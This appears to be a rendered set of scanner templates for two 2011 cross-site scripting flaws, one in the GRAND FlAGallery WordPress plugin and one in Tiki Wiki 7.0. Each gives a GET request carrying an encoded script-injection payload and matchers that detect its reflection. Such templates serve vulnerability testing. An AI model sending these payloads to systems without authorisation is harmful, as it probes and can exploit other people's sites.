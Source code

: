 # GRAND FlAGallery 1.57 - Cross-Site Scripting
## Description
- A cross-site scripting (XSS) vulnerability in facebook.php in the GRAND FlAGallery plugin (flash-album-gallery) before 1.57 for WordPress allows remote attackers to inject arbitrary web script or HTML via the i parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/flash-album-gallery/facebook.php?i=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Tiki Wiki CMS Groupware 7.0 Cross-Site Scripting
## Description
- Tiki Wiki CMS Groupware 7.0 is vulnerable to cross-site scripting via the GET "ajax" parameter to snarf_ajax.php.
- severity - medium
- tags - seclists,cve,cve2011,xss,tikiwiki
## Requests
- Method - GET
### URL
- {{BaseURL}}/snarf_ajax.php?url=1&ajax=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body
